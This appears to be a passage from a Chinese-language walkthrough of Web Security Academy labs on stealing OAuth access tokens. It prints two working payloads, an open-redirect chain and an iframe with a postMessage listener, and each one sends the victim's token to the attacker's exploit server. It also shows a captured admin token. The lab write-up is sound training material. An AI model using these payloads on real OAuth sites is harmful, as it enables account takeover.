 现在就是去窃取管理员的后面那一串token了。

```html
<script>
if (window.location.hash) {
fetch("/aaaa/" + escape(window.location.hash));
}
else {
window.location="https://acbc1f801e6a6ff7823f1e5b023800fe.web-security-academy.net/auth?client_id=ox5eb9gwefi89760jpnsk&redirect_uri=https://ac591f091e096fd382801e3a00d3002b.web-security-academy.net/oauth-callback/../post/next?path=https://ac4f1f531e966f5f82bd1e78013200fc.web-security-academy.net/exploit&response_type=token&nonce=-2103099315&scope=openid%20profile%20email";
}
</script>
```

获取到管理员的token。

```
%23access_token%3Df9Z-q5_tRkvmR1kw2yWOg1RhXLGtJJd4ygnwfDolj8m%26expires_in%3D3600%26token_type%3DBearer%26scope%3Dopenid%2520profile%2520email
```

获取了token之后，将`GET /me HTTP/1.1`里面的值更改了就可以得到Key了。

## 5. Stealing OAuth access tokens via a proxy page

这道题也是将`GET /auth`返回的token放到`GET /me`的`Authorization`里面，就可以得到Key了。（和上面一样。）

只是这次的利用链可能长亿点。这次没有开放重定向了。

在burp里面看到了这个`/post/comment/comment-form`。

```html
<script>
    parent.postMessage({type: 'onload', data: window.location.href}, '*')
    ...
</script>
```

这个将`window.location.href`通过`postMessage()`发送到它的父窗口。

那么可以在exploit里面创建一个指向`/auth?`的iframe，然后用目录遍历的方法，把url指向`/post/comment/comment-form`，然后父窗口也就是`exploit`会收到message。

所以在exploit里面再添加一个监听器，来监听发送到父窗口的message。

```html
<iframe src="https://acf11f381e6eb2db80311ac5025900ff.web-security-academy.net/auth?client_id=crv4ygfeu886tmd4x4ikd&redirect_uri=https://ac521fd91efcb21480651ab600a600df.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1956930677&scope=openid%20profile%20email"></iframe>

<script>
window.addEventListener("message", function(m) {
fetch("/aaaa/" + btoa(m.data.data))
});
</script>
```
